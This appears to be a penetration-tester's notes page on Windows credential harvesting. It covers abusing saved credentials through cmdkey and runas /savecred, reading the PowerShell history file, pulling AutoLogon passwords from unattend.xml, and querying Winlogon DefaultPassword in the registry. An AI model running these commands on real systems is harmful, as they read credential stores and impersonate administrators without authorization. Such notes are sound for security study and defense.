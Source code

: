 ## Cmdkey
**cmdkey** is a Windows command-line utility used to manage stored credentials. It can create, list, and delete credentials that are used for network authentication. Common use cases include storing credentials for RDP connections, network shares, and web services.

- `<target>`: Hostname, IP address, or domain (e.g., `192.168.1.100`, `example.com`)
- `<username>`: The username for authentication
- `<password>`: The password for the user

#### Add credentials

```powershell
cmdkey /add:<target> /user:<username> /pass:<password>
```

#### List stored credentials
```powershell
cmdkey /list
```
Although the administrator’s password is not visible in plain text using cmdkey, if stored credentials are returned, we can exploit this by running commands with the saved credentials using:
```powershell
runas.exe /savecred /user:administrator cmd
```

#### Delete credentials
```powershell
cmdkey /delete:<target>
```

#### Abusing Extracted Credentials

If a password is retrieved, an attacker can impersonate the user:

```powershell
runas /user:Administrator cmd
```

---



## Passwords in Windows Configuration Files
#### Passwords Stored in PowerShell History
PowerShell maintains a history of previously executed commands in a plaintext file. If sensitive commands (like those using `cmdkey`, `net use`, `runas`, or scripts with passwords) were run, those credentials may remain in history.

**Location of PowerShell History File**
```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Unattended.xml
The **unattended.xml** file is an automation configuration file used during Windows installations (including deployments via WDS, MDT, or other tools). It provides instructions for automating tasks like partitioning disks, creating users, and setting passwords.

**Where Passwords Appear**

Administrator account credentials or local user passwords may be included in plaintext under nodes like `<UserAccounts>` or `<AutoLogon>`.

```xml
<AutoLogon>
    <Password>
        <Value>P@ssw0rd123</Value>
    </Password>
</AutoLogon>
```

This file is commonly stored on installation media or left on systems in `C:\Windows\Panther\` or `C:\Windows\System32\Sysprep\`.

The password is stored in base64, so it would need to be decoded.

```bash
echo  "password" > <password_file>
base64 --decode <password_file> 
```



---


## Registry Credential Extraction

Windows can be configured to automatically log in a user after boot. This is commonly used in kiosk systems or enterprise environments. To achieve this, the system stores login credentials—including plaintext passwords—in the registry. If misconfigured or left exposed, attackers with local access can extract these credentials and use them for privilege escalation or lateral movement.

#### Target Registry Keys

These values reside under the following registry path:

```powershell
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

#### Registry Queries for Auto-Login Configuration
These values can be queried using the following commands:
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```
These values can be queried using the following commands:




